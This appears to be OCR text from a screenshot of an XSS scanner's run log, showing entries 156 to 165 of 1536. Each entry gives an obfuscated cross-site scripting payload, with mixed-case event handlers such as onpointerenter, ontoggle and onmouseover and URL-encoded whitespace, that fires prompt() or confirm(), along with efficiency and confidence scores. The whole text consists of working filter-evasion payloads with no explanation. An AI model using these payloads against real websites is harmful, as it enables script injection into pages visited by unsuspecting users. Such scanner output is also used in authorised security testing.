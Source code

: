  Progress: 156/1536
 
------------------------------------------------------------
 Payload: <A%09oNPoinTeREnTER%09=%09a=prompt,a()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 157/1536
 
------------------------------------------------------------
 Payload: <deTaILs%0donPOInTerENtER%09=%09a=prompt,a()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 158/1536
 
------------------------------------------------------------
 Payload: <a/+/oNpOinTeRENTer%0a=%0a(confirm)()//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 159/1536
 
------------------------------------------------------------
 Payload: <detaILS/+/ONPoINtereNter%0a=%0aconfirm()%0dx// 
 Efficiency: 92 
 Confidence: 10 
 Progress: 160/1536
 
------------------------------------------------------------
 Payload: <DeTaILS/+/ONtOGGle%09=%09confirm()%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 161/1536
 
------------------------------------------------------------
 Payload: <htmL/+/onMousEoVeR%09=%09(prompt)``%0dx// 
 Efficiency: 91 
 Confidence: 10 
 Progress: 162/1536
 
------------------------------------------------------------
 Payload: <a%09onPOiNtErenter+=+confirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 163/1536
 
------------------------------------------------------------
 Payload: <A/+/onPoiNTeReNtER+=+confirm()%0dx//v3dm0s 
 Efficiency: 92 
 Confidence: 10 
 Progress: 164/1536
 
------------------------------------------------------------
 Payload: <D3V%09onmouSeoVer%0d=%0dconfirm()%0dx//v3dm0s 
 Efficiency: 91 
 Confidence: 10 
 Progress: 165/1536
 
